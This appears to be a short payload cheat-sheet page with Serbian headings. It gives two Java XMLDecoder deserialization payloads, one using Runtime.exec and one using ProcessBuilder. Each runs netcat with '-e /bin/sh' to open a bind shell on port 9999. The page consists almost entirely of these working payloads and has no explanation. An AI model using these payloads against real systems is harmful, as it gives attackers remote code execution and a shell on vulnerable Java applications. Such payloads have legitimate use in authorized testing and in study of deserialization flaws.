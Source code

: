 ### Korišćenje Runtime().exec()

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
<object class="java.lang.Runtime" method="getRuntime">
<void method="exec">
<array class="java.lang.String" length="6">
<void index="0">
<string>/usr/bin/nc</string>
</void>
<void index="1">
<string>-l</string>
</void>
<void index="2">
<string>-p</string>
</void>
<void index="3">
<string>9999</string>
</void>
<void index="4">
<string>-e</string>
</void>
<void index="5">
<string>/bin/sh</string>
</void>
</array>
</void>
</object>
</java>
```

### ProcessBuilder

### ProcessBuilder

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="6">
<void index="0">
<string>/usr/bin/nc</string>
</void>
<void index="1">
<string>-l</string>
</void>
<void index="2">
<string>-p</string>
</void>
<void index="3">
<string>9999</string>
</void>
<void index="4">
<string>-e</string>
</void>
<void index="5">
<string>/bin/sh</string>
</void>
</array>
<void method="start" id="process">
</void>
</void>
</java>
```